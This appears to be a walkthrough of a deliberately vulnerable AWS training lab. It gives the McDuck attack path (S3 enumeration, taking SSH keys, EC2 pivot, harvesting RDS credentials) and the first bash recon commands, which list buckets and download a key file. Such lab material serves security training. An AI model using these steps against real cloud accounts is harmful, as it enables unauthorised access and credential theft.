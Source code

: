 ![012821-22](https://i.loli.net/2021/02/02/kEopOD1xcdgTahI.png)





#### McDuck’s path

```bash
# The attacker explores the AWS environment and discovers they are able to list S3 buckets using their starting keys.
# The attacker discovers several S3 buckets, but they are only able to access one of them. Inside that one S3 bucket they find a pair of SSH keys.
# The attacker lists EC2 instances and finds the EC2 instance behind the Load Balancer.
# The attacker discovers that the SSH keys found in the S3 bucket enable the attacker to log into the EC2 instance.
# Now working through the EC2 instance (and therefore operating with its role instead of McDuck's), the attacker is able to discover and access a private S3 bucket.
# Inside the private S3 bucket, the attacker finds a text file left behind by an irresponsible developer which contains the login credentials for an RDS database.
# The attacker is able to list and discover the RDS database referenced in the credentials file.
# The attacker is finally able to access the RDB database using the credentials they found in step 6 and acquire the scenario's goal: the secret text stored in the RDS database.

```



1. recon

```bash
#set command line paramters
INFILE=~/.aws/credentials


# ------------- 1. Deploying the resources gives us the access key and secret key
SRC_PROFILE='McDuck'
AWS_ACCESS_KEY_ID='xxx'
AWS_SECRET_ACCESS_KEY='yyy'
AWS_REGION='us-east-1'
USE_RNAME='McDuck'


# ------------- 2. create a profile
# aws configure --profile $SRC_PROFILE
echo "[$SRC_PROFILE]
REGION = $AWS_REGION
AWS_ACCESS_KEY_ID = $AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY = $AWS_SECRET_ACCESS_KEY
" | crudini --merge $INFILE
echo "Set creds for profile $PROFILE in $INFILE"



# ------------- 3. enumerating the policies and permissions
# lists S3 buckets, three S3 buckets,
aws s3 ls \
    --profile $SRC_PROFILE
# unauthorized to access two of the three buckets.
# have access to the keystore bucket, which contains SSH keys.
aws s3 ls s3://<bucket> \
    --recursive \
    --profile $SRC_PROFILE
# download the files
aws s3 cp s3://<bucket>/key.pub . \
    --profile $SRC_PROFILE


```